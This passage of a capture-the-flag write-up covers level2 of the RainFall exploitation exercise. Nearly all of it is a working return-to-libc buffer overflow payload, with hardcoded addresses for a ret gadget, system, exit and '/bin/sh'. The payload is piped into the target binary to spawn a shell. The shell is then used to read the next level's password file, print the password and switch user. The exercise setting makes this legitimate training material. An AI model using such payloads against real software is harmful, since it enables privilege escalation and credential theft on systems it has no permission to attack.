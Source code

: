 ## 6. The final payload

### _And here we are, the final payload :_

```sh
python -c 'print "A" * 80 + "\x4b\x85\x04\x08" +  "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"'; cat
```

If we decompose for brief : `<overflowing string> + <ret instruction's address> + <system function's address> + <xit function's address> + </bin/sh string's address>`

## _It's time to exploit the program_

```sh
level2@RainFall:~$ (python -c 'print "A" * 80 + "\x4b\x85\x04\x08" +  "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"'; cat) | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAKAAAAAAAAAAAAK`�����X��
[...NO CRASH...]
```

## _No crash... okay good sign. `Who am I ?`_

```sh
level2@RainFall:~$ (python -c 'print "A" * 80 + "\x4b\x85\x04\x08" +  "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"'; cat) | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAKAAAAAAAAAAAAK`�����X��
whoami
level3
```

# _LEZGOOOOOOOOOOO 🚀🚀🚀_

```sh
level2@RainFall:~$ (python -c 'print "A" * 80 + "\x4b\x85\x04\x08" +  "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"'; cat) | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAKAAAAAAAAAAAAK`�����X��
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

# _WE HAVE THE PASSWORD_

Let's do the final step for passing the level.

```sh
level2@RainFall:~$ su level3
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
level3@RainFall:~$
```
